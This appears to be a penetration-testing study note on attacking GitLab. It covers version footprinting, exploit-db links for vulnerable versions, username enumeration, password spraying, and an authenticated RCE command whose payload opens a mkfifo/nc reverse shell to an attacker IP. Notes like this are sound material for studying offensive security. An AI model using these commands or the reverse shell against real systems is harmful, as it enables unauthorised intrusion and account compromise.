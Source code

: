 # gitlab
## info
GitLab is a web-based Git-repository hosting tool that provides wiki capabilities, issue tracking, and continuous integration and deployment pipeline functionality.  
GitLab is similar to GitHub and BitBucket, which are also web-based Git repository tools.  
During internal and external penetration tests, it is common to come across interesting data in a company's GitHub repo or a self-hosted GitLab or BitBucket instance. These Git repositories may just hold publicly available code such as scripts to interact with an API. However, we may also find scripts or configuration files that were accidentally committed containing cleartext secrets such as passwords that we may use to our advantage.  
Applications such as GitLab allow for public repositories (that require no authentication), internal repositories (available to authenticated users), and private repositories (restricted to specific users).  
## discovery and footprinting
We can quickly determine that GitLab is in use in an environment by just browsing to the GitLab URL, and we will be directed to the login page, which displays the GitLab logo.  
The only way to footprint the GitLab version number in use is by browsing to the /help page when logged in.  
If the GitLab instance allows us to register an account, we can log in and browse to this page to confirm the version.  
If we cannot register an account, we may have to try a low-risk exploit such as this: https://www.exploit-db.com/exploits/49821  
We do not recommend launching various exploits at an application, so if we have no way to enumerate the version number (such as a date on the page, the first public commit, or by registering a user), then we should stick to hunting for secrets and not try multiple exploits against it blindly.  
## vulnerable gitlab versions
* 12.9.0 (https://www.exploit-db.com/exploits/48431)
* 11.4.7 (https://www.exploit-db.com/exploits/49257)
* 13.10.3 (https://www.exploit-db.com/exploits/49821)
* 13.9.3 (https://www.exploit-db.com/exploits/49944)
* 13.10.2 (https://www.exploit-db.com/exploits/49951)
## enumeration
There's not much we can do against GitLab without knowing the version number or being logged in.  
The first thing we should try is browsing to /explore and see if there are any public projects that may contain something interesting.  
From here, we can explore each of the pages linked in the top right groups, snippets, and help.  
We can also use the search functionality and see if we can uncover any other projects.  
Once we are done digging through what is available externally, we should check and see if we can register an account and access additional projects.  
We can also use the registration form to enumerate valid users (more on this in the next section). If we can make a list of valid users, we could attempt to guess weak passwords or possibly re-use credentials that we find from a password dump using a tool such as Dehashed  
## attacking gitlab
### username enumeration
https://www.exploit-db.com/exploits/49821  
https://github.com/dpgg101/GitLabUserEnum  
account lockout policy: GitLab's defaults are set to 10 failed attempts resulting in an automatic unlock after 10 minutes.  
If we successfully pulled down a large list of users, we could attempt a controlled password spraying attack with weak, common passwords such as Welcome1 or Password123, etc., or try to re-use credentials gathered from other sources such as password dumps from public data breaches.  
<pre>./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt</pre>
### authenticated RCE
GitLab Community Edition version 13.10.2 and lower  
steps:
* get valid credentials (or register new account if it is allowed and use those credentials)
* use the exploit listed below to create a reverse shell (and setup a listener to get the shell)

https://hackerone.com/reports/1154542  
https://www.exploit-db.com/exploits/49951  
<pre>python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f '</pre>
